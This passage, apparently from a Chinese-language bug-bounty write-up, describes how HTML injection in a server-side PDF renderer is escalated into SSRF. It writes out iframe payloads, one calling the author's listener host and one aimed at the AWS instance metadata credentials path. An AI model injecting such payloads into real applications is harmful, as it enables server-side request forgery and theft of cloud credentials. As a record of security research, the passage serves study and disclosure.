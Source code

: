 并且
```
onerror=
```

  
 **没有执行**  
  
这意味着我有**HTML 注入**，但**没有 XSS**。  
  
尽管如此，后端仍有一些东西在渲染 HTML。绝对值得深入挖掘。  
# 识别SSRF  
  
接下来，我想测试这个渲染过程是否真的会从中**获取资源**
```
iframe
```

。  
  
所以我修改了有效载荷：  
  
"title": "  
<  
iframe  
src  
=  
'http://sub.tarek.dev/probe'  
>  
</  
iframe  
>  
"  

```


```

  
并在我的终端（Burp Collaborator / Netcat / web 服务器）设置一个监听器。  
  
当我打开 PDF 时……  
  
  
我从 Web 应用程序服务器的 IP 地址收到了 DNS 和 HTTP 命中侦听器。  
  
现在我确认**服务器正在渲染 HTML 并从我们的输入加载 iframe 内容**。这是通过PDF 渲染流中的**HTML 注入进行的 SSRF 。**  
  
# 寻找 AWS 元数据  
  
存在 SSRF 是一回事，但证明其影响又是另一回事。由于服务器发出了出站 HTTP 请求，我怀疑它可能托管在**AWS**上——如果是这样，我希望能够访问**实例元数据服务 (IMDS)**。  
  
为了开始攻击，我注入了一个旨在访问元数据端点的新有效载荷：  

```
&#34;title&#34; : &#34;<iframe src='http://169.254.169.254/latest/meta-data/iam/security-credentials/'></iframe>&#34;
```
